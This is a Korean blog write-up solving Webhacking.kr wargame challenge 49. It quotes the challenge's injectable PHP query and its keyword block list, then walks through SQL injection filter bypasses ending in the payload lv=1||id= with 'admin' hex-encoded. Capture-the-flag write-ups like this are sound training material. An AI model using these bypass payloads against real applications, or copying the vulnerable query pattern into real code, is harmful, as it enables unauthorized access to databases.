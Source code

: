 ```yaml
---
layout: post
title: "Webhacking.kr 49번 문제"
description: ""
categories : development
sub_categories : ""
date: 2017-09-29
tags: ['hacking', 'WebHacking', 'webhacking.kr']
comments: true
share: true
---
```


49번 문제는 300스코어의 문제이며, 이전의 문제 풀이 했을때 같은 쉬운 편에 속하는 문제와 비슷한 유형이다.

거의 데자뷰급..

  

페이지를 보면, 머리말에 `SQL INJECTION` 이라 기재되어있다.

그렇다. 본 문제는 SQL Injection 문제이다.

  

페이지내 작은 입력 폼이 보이고, "level" 이라는 라벨 옆 한개의 인풋 필드가 존재하는데, 이 필드의 기본 값은 "1" 이다.

기본값으로 요청을 해보니, 입력 폼 하단에 "zzibong" 이라는 값이 추가되어 응답한다.

  

이 후, 다른 값으로 요청해 보았을 때 위의 문자열을 더 이상 응답해주지않고있다.

"||", "&&" 등의 연산자를 테스트겸 추가하여 요청해보니 추가된 연산자에 따라서 "zzibong"값이 응답되었다.

  

문제 내 소스를 보니, 힌트 페이지가 숨겨져있었고, 숨겨진 힌트 내용은 아래와 같다.

  

    if(time()<1258110000) exit();if($_GET[lv]){if(eregi("union",$_GET[lv])) exit();if(eregi("from",$_GET[lv])) exit();if(eregi("select",$_GET[lv])) exit();if(eregi("or",$_GET[lv])) exit();if(eregi("and",$_GET[lv])) exit();if(eregi("\(",$_GET[lv])) exit();if(eregi("\)",$_GET[lv])) exit();if(eregi("limit",$_GET[lv])) exit();if(eregi(",",$_GET[lv])) exit();if(eregi("/",$_GET[lv])) exit();if(eregi("by",$_GET[lv])) exit();if(eregi("desc",$_GET[lv])) exit();if(eregi("asc",$_GET[lv])) exit();if(eregi("cash",$_GET[lv])) exit();if(eregi(" ",$_GET[lv])) exit();if(eregi("%09",$_GET[lv])) exit();$q=@mysql_fetch_array(mysql_query("select id from members where lv=$_GET[lv]"));echo($q[0]);if($q[0]=="admin") @solve();}

  

eregi 라는 method의 설명은 아래와 같다.

  

> Case insensitive regular expression match  

  

대소문자 구별 없이, 첫 번째 인자 값에 해당하는 문자열을 두번째 인자값에 찾는다.

이 후 참이라면 exit <strike>method</strike> keyword 를 통해 프로세스를 종료한다.

  

따라서 아래 목록에 있는 문자열은 사용할 수 없다는 것 이다.

  

  * union
  * from
  * select
  * or
  * and
  * \\(
  * \\)
  * limit
  * ,
  * /
  * by
  * desc
  * asc
  * cash
  *   * %09

  

이 후 'q' 라는 Variable 에 질의한 쿼리 응답 값을 대입하고, q의 첫번째 인덱스에 해당하는 값이 admin(select 구문
id 참고) 이라면 문제를 Solve 할 수 있다.

질의 되는 쿼리의 내용은 아래와 같다.

  

  

    select id from members where lv={Get method lv parameter}

  

아래와 같은 형식으로 쿼리를 질의하면 문제를 해결할 수 있습니다.

  

    select id from members where lv={Get method lv parameter} or id = "admin"

  

어때요, 참 쉽죠 ?

그렇다면 이제 우회해서 파라미터를 전송해야겠군요.

  

"or" 은 필터링 되어있으니, "||" 로 치환하여 요청합니다.

음.. 안되는군요. 이전 문제와 같은 맥락인데, 서버의 magic quotes 옵션이 켜져있는 것으로 추정되니 `char` 내부 함수를
인용해 아래와 같이 우회해봅니다.

  

  

    lv=1||id=char(97,100,109,105,110)select id from members where lv={Get method lv parameter} or id = char(97,100,109,105,110)

  

음.. 요청된 내용은 이상이 없는데, 동작을 안합니다.

좀 더 살펴보니, "\\(","\\)" 항목 덕분에 char 함수를 사용할 수 없었습니다.

  

그렇다면 hex 값으로 표현하여 우회해봅니다.

admin 값을 16진수로 바꾸면 61636D696E 입니다.

본 값으로 치환하여 재 요청하면, 해결됩니다.

  

    lv=1||id=61636D696Eselect id from members where lv={Get method lv parameter} or id = 61636D696E

  

  

![](/assets/images/posts/823/99D4C33359CE117D236099.PNG)

  

